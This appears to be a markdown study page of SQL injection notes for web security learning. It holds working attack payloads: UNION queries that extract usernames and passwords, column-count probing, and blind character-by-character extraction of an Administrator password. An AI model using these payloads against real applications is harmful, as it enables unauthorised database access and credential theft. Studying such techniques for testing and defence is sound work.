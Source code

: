 # Web Security resources 


#### Retrieving data from other database tables

```sql
>  ' UNION SELECT username, password FROM users-- 
```
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

##### Determining the number of columns required in an SQL injection UNION attack

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 1-- ... ERROR!

' UNION SELECT NULL-- ERROR!
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- ERROR!
```

#### Examining the database

```sql
> SELECT * FROM information_schema.tables 
```

#### Blind SQL injection vulnerabilities

##### Exploiting blind SQL injection by triggering conditional responses

```sql
> xyz' UNION SELECT 'a' WHERE 1=1--
> xyz' UNION SELECT 'a' WHERE 1=2-- 

> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'-- 
...
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'-- 
```

#### How to detect SQL injection vulnerabilities

```sql
> '
> OR 1=1 | OR 1=2
```

#### SQL injection in different parts of the query

- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.

#### Second-order SQL injection

 First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. 

#### Database-specific factors

- [Cheatsheet of different databases](https://portswigger.net/web-security/sql-injection/cheat-sheet)












